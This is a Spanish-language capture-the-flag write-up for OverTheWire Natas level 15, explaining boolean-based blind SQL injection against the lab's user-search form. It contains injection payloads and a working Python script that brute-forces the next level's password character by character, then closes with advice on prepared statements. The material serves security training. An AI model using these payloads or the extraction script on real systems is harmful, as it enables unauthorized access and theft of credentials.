

# Natas 15 – OverTheWire

La página muestra un formulario con un campo para buscar un usuario, si el usuario existe, la respuesta es: `This user exists.` y si no existe: `This user doesn't exist.`

No se muestran errores ni resultados de la base de datos — solo un mensaje booleano (sí/no).

## Analisis

Este tipo de comportamiento sugiere que el backend ejecuta algo como:

```php
$query = "SELECT * FROM users WHERE username='" . $_GET['username'] . "'";
```

Y luego:

```php
if (mysql_num_rows($result) > 0)
    echo "This user exists.";
else
    echo "This user doesn't exist.";
```

Aquí no vemos la contraseña directamente, pero podemos inyectar condiciones en el parámetro `username` y deducir la contraseña carácter por carácter a través del mensaje de respuesta.

### Concepto: Blind SQL Injection

En una **SQLi normal**, ves datos o errores.
En una **SQLi ciega**, solo tienes una respuesta “verdadero o falso”.
Por tanto, el ataque se basa en preguntas como:

>“¿El primer carácter de la contraseña es una `a`?”

Si la respuesta es “User exists”, la condición fue verdadera.
Si es “User doesn’t exist”, fue falsa.

Repetimos eso letra por letra.

Teniendo esto en cuenta lo primero que vamos a hacer es comprobar que la página es vulnerable a SQLi con una condicion que siempre sea verdadera.

```url
natas16' OR '1'='1
```

Si el mensaje cambia a “This user exists.”, sabemos que hay inyección SQL. Sabemos que las contraseñas están guardadas en `/etc/natas_webpass/`. En este caso, la base de datos probablemente contiene una tabla users con una columna password.

Probamos algo como:

```url
natas16" AND password LIKE BINARY "a%" --
```

Si la respuesta es “This user exists.” → significa que la contraseña empieza por `a`.

Como es tedioso hacerlo a mano, podemos automatizarlo con un script en Python.

Por ejemplo:

```python
import requests
from string import ascii_letters, digits

chars = ascii_letters + digits
url = "http://natas15.natas.labs.overthewire.org"
auth = ('natas15', '<contraseñaNatas15>')
found = ""

while True:
    for c in chars:
        payload = f'natas16" AND password LIKE BINARY "{found + c}%" -- '
        r = requests.get(url, auth=auth, params={"username": payload})
        if "This user exists" in r.text:
            found += c
            print(f"[+] Encontrada: {found}")
            break
    else:
        break
print("Contraseña:", found)
```

Después de unas iteraciones, el script encuentra la contraseña de Natas 16:



### Concepto: SQL Injection ciega

La **Blind SQLi** se basa en inferir información a partir del comportamiento de la aplicación.

Existen dos variantes:

- **Boolean-based:** el resultado depende de una condición verdadera/falsa.
- **Time-based:** se usan funciones como `SLEEP(5)` para distinguir respuestas por tiempo.

## Conclusion

- A veces no se necesita ver los datos para extraerlos: basta con observar las respuestas del servidor.

- Las aplicaciones que devuelven mensajes distintos (aunque parezcan inocentes) pueden filtrar información sensible.

- Los **prepared statements** y las consultas parametrizadas son la única defensa real.
